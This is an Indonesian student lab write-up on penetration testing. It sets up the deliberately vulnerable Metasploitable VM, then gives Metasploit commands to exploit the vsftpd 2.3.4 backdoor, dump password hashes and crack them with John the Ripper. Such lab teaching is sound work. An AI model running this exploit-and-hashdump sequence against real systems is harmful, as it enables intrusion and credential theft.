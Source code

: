 # Tugas 4

## Pendahuluan

&nbsp;&nbsp;&nbsp; Komputer sebagai perangkat yang sering digunakan untuk memudahkan pekerjaan manusia di berbagai bidang membuat perangkat ini dimiliki oleh setiap orang. Sistem operasi yang mengendalikan dan mengkoordinasikan semua perangkat keras yang bekerja di komputer menjadikan munculnya berbagai tipe sistem operasi yang berkembang di pasaran, dimulai dari sistem operasi yang berbayar seperti Windows hingga yang gratis atau open source seperti Linux.

&nbsp;&nbsp;&nbsp; Sistem operasi yang berkembang saat ini selalu mengalami pembaharuan untuk meningkatkan kinerja serta kualitas yang dimilikinya. Perkembangan sistem operasi yang berbasis graphic user interface seperti Windows lebih banyak digunakan dibandingkan dengan sistem operasi yang harus mengandalkan command seperti Linux. Versi Windows yang banyak mengalami penyempurnaan akan tetapi masih terdapat celah keamanan yang dapat dieksploitasi dengan berbagai cara yang mengakibatkan komputer dapat dieksploitasi dan dimanfaatkan oleh orang yang tidak memiliki hak akses ke dalam sebuah sistem.

&nbsp;&nbsp;&nbsp; Untuk mengetahui celah keamanan tersebut perlu adanya pengujian atau penetrasi untuk menguji dan mencari celah keamanan apa saja yang dapat dieksploitasi di sistem operasi Windows yang baru diinstal yang dapat digunakan untuk masuk ke dalam sebuah sistem tanpa memiliki hak akses.

## Instalasi

### -Instalasi Metasploitable pada Virtual Box



1. Download dan install Virtual Box pada komputer anda.
1. Setelah instalasi selesai, buka Virtual Box dan klik "New".

![alt text](https://scontent-sit4-1.xx.fbcdn.net/v/t34.0-12/15356755_1380978318593630_3194431754367144286_n.jpg?oh=f087713c84352ad23b6478a8493fe365&oe=5849DC89 "")

3. Anda bisa memberikan nama, tujuannya kita memberi nama pada Metasploitable hanya untuk memastikan nama itu dimengerti dan mudah untuk dikenali.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;![alt text](https://scontent-sit4-1.xx.fbcdn.net/v/t34.0-12/15380732_1380971348594327_7514329790307194132_n.jpg?oh=0246f9be1fd2c43b4417052ac6bc505e&oe=5848BEE2 "")

4. Untuk memori, anda setidaknya mengalokasikan memori minimal 256MB. Namun jika anda mempunyai RAM yang cukup besar, anda bisa meninambahkan alokasi memorinya. 

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;![alt text](https://scontent-sit4-1.xx.fbcdn.net/v/t34.0-12/15319080_1380971545260974_1520687697596227853_n.jpg?oh=d64003d28cba89fdba1374e5ff8c275a&oe=5848FFEB "")

5. Di dalam jendela "Create Virtual Machine", anda dapat memilih lokasi gambar yang telah anda download sebelumnya (setelah mengekstrak file ZIP nya). Klik logo folder di sebelah kanan bawah dan cari lokasi gambar Metasploitable.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;![alt text](https://scontent-sit4-1.xx.fbcdn.net/v/t34.0-12/15327502_1380972465260882_5014155796298159778_n.jpg?oh=0402f6e77f2519d2f1f2d58683729e8f&oe=5848C3B3 "")

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Ketika selesai, klik "Create"

6. Langkah selanjutnya adalah kita harus menjalankan machine yang baru saja kita install. Pilih Metasploitable OS dan klik "Start".
7. Machine metasploitable akan booting dan seperti ini tampilan window nya.

![alt text](https://scontent-sit4-1.xx.fbcdn.net/v/t34.0-12/15284855_1380970998594362_1369452897915757503_n.jpg?oh=3f4082ecf41161618c6ca0aa1782a7c3&oe=5848F2DA "")

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Secara default usernamenya: msfadmin dan passwordnya: msfadmin. Anda bisa merubah &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;username dan password setelah log in dan menjadikan root.  

## Uji Penetrasi Metasploit

### Exploit vsftpd_234_backdoor

1. Masuk ke metasploit console dengan cara mengetikkan perintah: `msfconsole`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/vsftpd_1.PNG "")

2. Setelah masuk ke metasploit console, kita akan mencari exploitnya dengan mengetikkan perintah: `search vsftpd`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/vsftpd_2.PNG "")

3. Setelah mendapatkan yang kita cari, kemudian kita masuk kedalamnya dengan mengetikkan perintah: `use exploit/unix/ftpvsftpd_234_backdoor` dan jangan lupa untuk setting ip target yang akan di exploit dengan mengetikkan perintah: `set RHOST [IP_Target]`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/vsftpd_3.PNG "")

4. Kita akan melakukan exploit. Ketikkan perintah: `exploit`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/vsftpd_4.PNG "")

5. Lihat session yang sedang berjalan dengan perintah: `sessions -l`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/vsftpd_5.PNG "")

6. Kemudian kita akan melihat post apa saja yang tersedia dengan mengetikkan perintah: `show post`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/vsftpd_6.PNG "")

7. Misalnya disini saya akan melakukan exploit terhadap hashdump. Kita ketikkan perintah: `use post/linux/gather/hashdump`. Kemudian set session yang sedang berjalan dengan perintah: `set session 1`. Untuk eksekusi ketikkan perintah: `run`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/vsftpd_7.PNG "")

8. Saat kita mengecek file dump tersebut, isi filenya masih terenkiprsi. Oleh karena itu kita akan mendecrypt dengan bantuan tool lain, yaitu John de Ripper. Untuk menjalankan tool tersebut kita akan masuk ke direktori `/usr/sbin`, kemudian jalankan John de Ripper dengan mengetikkan perintah: `./john [Lokasi_File_Hashdump]`
![alt text](https://github.com/HerdiantoNaufal/PKSJ_Kel6/blob/master/Gambar/vsftpd_8.PNG "")

9. Dari gambar di atas, setelah file dump berhasil di decrypt kita dapat melihat username dan password target kita.
